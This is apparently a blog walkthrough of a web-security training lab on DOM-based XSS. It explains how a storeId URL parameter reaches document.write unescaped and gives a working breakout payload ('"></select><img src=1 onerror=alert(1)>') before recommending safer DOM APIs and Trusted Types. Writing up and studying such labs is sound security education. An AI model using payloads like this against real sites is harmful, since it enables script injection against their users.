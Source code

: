 +++
draft = false
author = "bloodstiller"
title = "DOM XSS Lab 2: Exploiting document.write with location.search in Select Elements"
keywords = ["DOM XSS", "document.write vulnerability", "location.search exploitation", "cross-site scripting", "JavaScript injection", "select element breakout", "DOM-based XSS", "client-side security", "URL parameter injection", "XSS prevention"] 
tags = ["WebSecurity", "XSS", "DOM", "JavaScript", "document.write", "location.search", "client-side", "injection", "DOM-based", "bug-bounty", "web-exploitation", "OWASP", "security-research"] 
description = "A detailed walkthrough of DOM XSS Lab 2, demonstrating how to exploit document.write sink using location.search source within a select element. Learn about DOM-based cross-site scripting, breaking out of HTML contexts, and client-side JavaScript security vulnerabilities." 
date = 2025-09-29 
toc = true 
bold = true 
next = true 
lastmod = 2025-09-29
+++

## Lab 2: DOM XSS in `document.write` sink using source `location.search` inside a `<select>` element: {#lab-2-dom-xss-in-document-dot-write-sink-using-source-location-dot-search-inside-a-select-element}

> This lab contains a DOM-based cross-site scripting vulnerability in the stock checker. It uses the JavaScript `document.write` function, which writes raw HTML into the page. The function is called with data from `location.search` (the URL query string), which you control. The data is inserted inside a `<select>` element.
>
> To solve this lab, perform a cross-site scripting attack that breaks out of the `<select>` element and calls `alert`.


### Finding an interesting parameter: {#finding-an-interesting-parameter}

-   When we filter for store location, the application uses the query parameter `storeId`.
-   {{< figure src="/ox-hugo/2025-09-29-151741.png" >}}

We should now locate where this parameter is processed in the page’s JavaScript.


### Breaking Down The Source Code: {#breaking-down-the-source-code}

-   Searching the page, we find `storeId` used in the `stockCheckForm` code:
    ![](/ox-hugo/2025-09-29-152034.png)
    ```javascript
     <form id="stockCheckForm" action="/product/stock" method="POST">
       <input required type="hidden" name="productId" value="1">
       <script>
         var stores = ["London","Paris","Milan"];
         var store = (new URLSearchParams(window.location.search)).get('storeId');
         document.write('<select name="storeId">');
         if (store) {
           document.write('<option selected>' + store + '</option>');
         }
         for (var i = 0; i < stores.length; i++) {
           if (stores[i] === store) continue;
           document.write('<option>' + stores[i] + '</option>');
         }
         document.write('</select>');
       </script>
       <button type="submit" class="button">Check stock</button>
    ```


#### Form metadata: {#form-metadata}

```javascript
<form id="stockCheckForm" action="/product/stock" method="POST">
  <input required type="hidden" name="productId" value="1">
```

The form posts to `/product/stock` and includes a hidden `productId=1`.

~~Note~~: This `productId` is unrelated to the store names; it’s just the product identifier.

The rest of the logic is inside the `<script>` block.


#### Predefined options: {#predefined-options}

```javascript
var stores = ["London","Paris","Milan"];
```

These are the allowed store options shown in the dropdown menu.


#### User-controlled source: {#user-controlled-source}

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
```

`URLSearchParams` looks at the page’s query string (that’s `window.location.search`).

`.get('storeId')` pulls out whatever value is set for the `storeId` parameter.

The script then writes that value directly into the page with `document.write`, no escaping or checks, so this means injected HTML/JS can run.


#### Writing to the DOM: {#writing-to-the-dom}

```javascript
if (store) {
  document.write('<option selected>' + store + '</option>');
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) continue;
  document.write('<option>' + stores[i] + '</option>');
}
document.write('</select>');
```

If `store` has a value, the script writes it into the dropdown as the selected `<option>` using `document.write`.

Next, it adds the built-in stores (`London`, `Paris`, `Milan`) as more `<option>s`, skipping any that `===` match the value of `store`.

Since `store` comes straight from the URL and is written as raw HTML (no encoding), an attacker can inject HTML/JS.


### Exploitation PoC: {#exploitation-poc}

Because `storeId` isn’t sanitized, we can inject our own HTML into the `<select>`.

To prove it’s controllable, first try a harmless value (e.g., `&storeId=bl00dstI113r`).

Result in the DOM (sanity check):
![](/ox-hugo/2025-09-29-155040.png)

Rendered HTML fragment:

```html
<select name="storeId">
  <option selected>bl00dstI113r</option>
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

**This is DOM-based XSS because the \*source** is `location.search` (URL input) and the **sink** is `document.write` (HTML output).

The server doesn’t echo our payload. Instead, the browser’s JavaScript takes our URL value and builds the HTML itself, so the attack happens entirely in the DOM.


### Exploitation: triggering an alert {#exploitation-triggering-an-alert}

We need to break out of the `<option>/<select>` context and inject our own element with a JavaScript event, because otherwise the payload stays inside the option’s text, gets treated as plain text (not HTML), and no event handlers or scripts will execute.

The selected option is built as:

-   `'<option selected>' + store + '</option>'`

If we supply a payload that **closes** the current tags and then adds an element with an event handler, we can execute JavaScript.

**Steps**:

1.  Close the current text context by passing a double quote and angle bracket: `">`
2.  Close the `<select>`: `"></select>`
3.  Inject an element with an event handler. A classic is an image that triggers on error: `<img src=1 onerror=alert(1)>`
    -   This works as we are calling an image which does not exist and in the event of an error (which will happen) we will `alert` to the page.
4.  Combined payload:
    `"></select><img src=1 onerror=alert(1)>`
5.  URL-encode spaces if needed (`%20`) →
    `"></select><img%20src=1%20onerror=alert(1)>`

Final PoC (as `storeId`):

-   `storeId="></select><img%20src=1%20onerror=alert(1)>`

Result:
![](/ox-hugo/2025-09-29-162338.png)
![](/ox-hugo/2025-09-29-162430.png)

Injected HTML (simplified view):

```html
<select name="storeId">
  <option selected>"></option>
</select>
<img src="1" onerror="alert(1)">
<option>London</option>
<option>Paris</option>
<option>Milan</option>
<button type="submit" class="button">Check stock</button>
```


### Why This Is Vulnerable: {#why-this-is-vulnerable}

**Primary Issue**: Untrusted data from `location.search` (`storeId` parameter) is inserted into HTML using `document.write` (`store` variable) without encoding.

**How To Fix**:
Don’t use `document.write` for dynamic content. Instead use safer DOM APIs (`createElement`, `textContent`, `appendChild`).

If `document.write` must be used see [mozilla's advisory](https://developer.mozilla.org/en-US/docs/Web/API/Document/write#security_considerations) below. However it is advised to not use it. I would also recommend reading [OWASP DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#dom-based-xss-prevention-cheat-sheet)

> The method is a possible vector for Cross-site-scripting (XSS) attacks, where potentially unsafe strings provided by a user are injected into the DOM without first being sanitized. While the method may block `<script>` elements from executing when they are injected in some browsers (see [Intervening against document.write() for Chrome)](https://developer.chrome.com/blog/removing-document-write/), it is susceptible to many other ways that attackers can craft HTML to run malicious JavaScript.
>
> You can mitigate these issues by always passing [TrustedHTML](https://developer.mozilla.org/en-US/docs/Web/API/TrustedHTML) objects instead of strings, and [enforcing trusted type](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API#using_a_csp_to_enforce_trusted_types) using the [require-trusted-types-for](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/require-trusted-types-for) CSP directive. This ensures that the input is passed through a transformation function, which has the chance to [sanitize](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS#sanitization) the input to remove potentially dangerous markup (such as [&lt;script&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/script) elements and event handler attributes), before it is injected.


